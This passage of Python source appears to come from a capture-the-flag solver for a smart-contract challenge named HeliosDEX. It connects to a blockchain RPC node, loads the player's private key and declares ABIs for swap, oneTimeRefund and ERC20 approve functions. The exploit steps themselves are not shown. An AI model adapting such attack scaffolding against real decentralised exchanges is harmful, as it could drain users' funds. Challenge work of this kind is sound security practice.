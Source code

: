 ```python
        "setup_contract": setup_contract
    }

### MAIN AUTOMATION ###
def main():
    w3 = Web3(Web3.HTTPProvider(RPC_NODE_URL))
    if not w3.is_connected():
        print("ERROR: Could not connect to RPC node!")
        return

    # Get the initial connection info and use that account as our persistent aggregator.
    init_info = get_initial_connection_info()
    aggregator_address = w3.to_checksum_address(init_info["player_address"])
    aggregator_private_key = init_info["player_private_key"]
    print(f"[+] Using persistent aggregator address: {aggregator_address}")

    # If an aggregator address was provided in configuration, use that instead.
    global AGGREGATOR_ADDRESS
    if AGGREGATOR_ADDRESS == "0xYourAggregatorAddressHere":
        print("[*] No aggregator provided – using the initial player as aggregator.")
    else:
        aggregator_address = w3.to_checksum_address(AGGREGATOR_ADDRESS)
        # (You must supply the corresponding private key for your aggregator externally.)
        # For this script, we assume you want to use the initial connection info.
        print(f"[+] Using provided aggregator address: {aggregator_address}")
    
    persistent_target = w3.to_checksum_address(init_info["target_contract"])
    persistent_setup = w3.to_checksum_address(init_info["setup_contract"])
    
    # ABI definitions (from the challenge)
    heliosdex_abi = [
        {"inputs": [{"internalType": "uint256", "name": "initialSupplies", "type": "uint256"}],
         "stateMutability": "payable", "type": "constructor"},
        {"inputs": [], "name": "eldorionFang",
         "outputs": [{"internalType": "address", "name": "", "type": "address"}],
         "stateMutability": "view", "type": "function"},
        {"inputs": [], "name": "malakarEssence",
         "outputs": [{"internalType": "address", "name": "", "type": "address"}],
         "stateMutability": "view", "type": "function"},
        {"inputs": [], "name": "heliosLuminaShards",
         "outputs": [{"internalType": "address", "name": "", "type": "address"}],
         "stateMutability": "view", "type": "function"},
        {"inputs": [], "name": "swapForELD",
         "outputs": [], "stateMutability": "payable", "type": "function"},
        {"inputs": [], "name": "swapForMAL",
         "outputs": [], "stateMutability": "payable", "type": "function"},
        {"inputs": [], "name": "swapForHLS",
         "outputs": [], "stateMutability": "payable", "type": "function"},
        {"inputs": [
            {"internalType": "address", "name": "item", "type": "address"},
            {"internalType": "uint256", "name": "amount", "type": "uint256"}
         ],
         "name": "oneTimeRefund", "outputs": [],
         "stateMutability": "nonpayable", "type": "function"}
    ]
    erc20_abi = [
        {"constant": False,
         "inputs": [{"name": "_spender", "type": "address"},
                    {"name": "_value", "type": "uint256"}],
         "name": "approve", "outputs": [{"name": "", "type": "bool"}],
         "type": "function"}
    ]
    
```